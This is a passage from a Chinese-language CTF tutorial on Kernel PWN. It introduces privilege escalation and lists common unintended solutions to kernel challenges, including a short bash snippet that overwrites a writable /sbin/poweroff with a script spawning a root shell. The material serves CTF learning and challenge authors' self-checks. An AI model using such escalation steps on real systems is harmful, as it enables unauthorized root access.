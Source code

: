 1. 这些内容应该在 OS 等课程中详细介绍，~~而笔者的 OS 成绩并不喜人，~~为避免产生负面的误导，这里不做讨论；

2. 在最开始讨论这些概念意义不大，把重点放在 PWN 上，**PWN 是通过实践来学习的（调试对 PWN 很重要）**；

Kernel PWN 的目标往往是提权（escalation），即给出一个低权限的任意代码执行权限，攻击者编写恶意代码上传到目标机器，运行后获得了更高（往往是 root）权限：

|      | Kernel PWN             |
| ---- | ---------------------- |
| 环境 | Linux（若无特殊说明）  |
| 前提 | 低权限下的代码执行     |
| 目标 | 提权（获得 root 权限） |

## 提权

> 在一个低权限的 shell 中，找到系统的漏洞并加以利用，最终拿到 root 权限——这是一种非常经典的 PWN 思路 ~~，不感觉非常浪漫吗~~ 。

内核漏洞利用固然是提权的强力手段，但是很多时候存在更简单的方法，例如 [ld.so + suid](CVE-2023-4911)。

如果你此前没有接触过 Kernel PWN，但在某次比赛中发现一道 Kernel 题被很多队伍解出来了，那下面的内容正是你所亟需的。

## 非预期解

> 提权的方法有很多，难以面面俱到，这里说一下常见的 kernel 题目非预期解法。
>
> 只放一些常见的（用烂了的）非预期解，解题的同时也供出题人自查：

![[static/meme-0x00.jpeg]]

### 文件权限设置不当

> 此处存在问题的关键在于 `init` 文件是以 `root` 权限调用的，若其内部又调用了其它可写的文件，则恶意篡改这些可执行文件就能带来提权。

#### /sbin/poweroff 可写

这是最近很常见，利用起来也非常简单的一种非预期情况，利用时视 `init` 脚本的具体情况来决定受害文件（这里是 `/sbin/poweroff`），而写入内容往往是：

```bash
cd sbin

rm poweroff

cat << EOF > ./poweroff ; chmod +x ./poweroff
#!/bin/sh
/bin/sh
EOF

exit
```

利用之所以能成功，是因为出题者在打包题目时没有切换到 root，进而导致 `/sbin` 下的文件属主并非高权限用户，可以被篡改。

##### Chal-0x00: Hackergame-2022-no_open
